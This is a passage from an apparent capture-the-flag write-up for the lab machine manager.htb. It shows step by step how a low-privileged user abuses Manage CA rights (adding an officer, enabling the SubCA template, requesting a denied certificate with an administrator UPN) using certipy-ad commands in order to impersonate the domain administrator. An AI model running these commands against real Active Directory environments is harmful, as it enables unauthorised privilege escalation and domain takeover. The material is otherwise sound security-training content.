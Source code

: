     3.  **Making the Certificate Request**:
        -   We request a certificate using the `SubCA` template for an admin account (e.g., `administrator@manager.htb`).
        -   Our request will be denied, but we save the private key and note down the request ID.

    4.  **Re-Issuing the Denied Request**:
        -   Since we have Manage Certificates permission, we can issue the previously denied certificate request using the request ID.

    5.  **Retrieving the Certificate**:
        -   Finally, we retrieve the issued certificate and private key for the highly privileged account e.g. domain admin/admin.

    6.  **Result**:
        -   We now have a valid certificate for a privileged account, allowing us to impersonate that user and escalate our access.


#### Step 1 Add Raven as an Officer, to manage &amp; issue certs: {#step-1-add-raven-as-an-officer-to-manage-and-issue-certs}

-   `certipy-ad ca -u $user@manager.htb -p $pass -dc-ip $box -ca manager-dc01-ca -add-officer raven -debug`
    -   {{< figure src="/ox-hugo/2024-09-21-193249_.png" >}}


#### Step 2 Enable `SubCA` template: {#step-2-enable-subca-template}

-   **Enable SubCA Template**:
    -   `certipy-ad ca -u $user@manager.htb -p $pass -dc-ip $box -ca manager-dc01-ca -enable-template SubCA -debug`
        -   {{< figure src="/ox-hugo/2024-09-21-193513_.png" >}}
        -   The reason we do this is because:

            > The SubCA certificate template is vulnerable to ESC1, but only administrators can enroll in the template. Thus, a user can request to enroll in the SubCA - which will be denied - but then issued by the manager afterwards.

            -   I see this says `ESC1` however we are using this cert as only admins can enroll using this cert and we want to privesc to admin.

-   **Verify the template has been enabled**:
    -   `certipy-ad ca -u $user@manager.htb -p $pass -dc-ip $box -ca manager-dc01-ca -list-templates -debug`
        -   {{< figure src="/ox-hugo/2024-09-21-193614_.png" >}}


#### Step 3 Request a certificate on behalf of the administrator: {#step-3-request-a-certificate-on-behalf-of-the-administrator}

-   **We request a certificate for the administrator, as expected it is denied**:
    -   `certipy-ad req -u $user@manager.htb -p $pass -dc-ip $box -ca manager-dc01-ca -template SubCA -upn administrator@manager.htb -debug`
        -   {{< figure src="/ox-hugo/2024-09-21-195727_.png" >}}
        -   We opt to save it anyway &amp; take a note of the number listed `23`
        -   This is the most important part of this whole process. We are setting the `UPN` (User Principal Name) to be `administrator@manager.htb` this means we are requesting this ticket on behalf of the `administrator` user.
